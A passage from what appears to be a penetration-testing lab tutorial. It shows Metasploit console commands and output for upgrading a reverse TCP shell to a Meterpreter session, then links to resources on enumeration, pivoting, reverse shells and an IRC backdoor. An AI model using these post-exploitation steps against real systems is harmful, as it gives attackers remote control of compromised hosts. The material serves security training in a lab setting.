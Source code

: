 ## Upgrading to a Meterpreter session

To upgrade your basic generic TCP reverse shell to a Meterpreter shell, press Ctrl+Z to send that session to the background.
Then run the session upgrade command on the session you earlier opened:

```
msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433 
[*] Sending stage (1017704 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (172.17.0.1:4433 -> 172.17.0.2:48016) at 2023-12-28 20:56:25 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
```

Now you've upgraded your puny shell to a glorious Meterpreter session.
To get into Meterpreter, open your new session:

```
msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter >
```

# Extra Resources

Here are some extra reading materials I've prepared for the exposed services in case you're interested or stuck:

- [Nmap](reconnaissance.md#nmap)
- [Scanning Websites](reconnaissance.md#automated-web-application-scanners)
- [Path Enumeration](reconnaissance.md#path-enumeration)
- [SMB Enumeration](reconnaissance.md#smb-enumeration)
- [NFS Enumeration](reconnaissance.md#nfs-enumeration)
- [FTP Enumeration](reconnaissance.md#ftp-enumeration)
- [SMTP Enumeration](reconnaissance.md#smtp-enumeration)
- [SNMP Enumeration](reconnaissance.md#snmp-enumeration)
- [WebDAV Enumeration](reconnaissance.md#webdav-enumeration)

As well as some links I found useful:

- [Custom Host Discovery Scans](https://nmap.org/book/man-host-discovery.html)
- [Autoroute, SOCKS, and Proxychains4](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)
- [Reverse Shells (OpenBSD and more)](https://kb.systemoverlord.com/security/postex/reverse/)
- [Upgrading a shell to Meterpreter](https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html)
- [UnrealIRC Backdoor](https://pentesthacker.wordpress.com/2021/01/10/hack-metasploitable-with-unrealirc-backdoor/)
- [Reverse Shell through a Pivot](https://pwn.no0.be/post/windows/pivoting/)
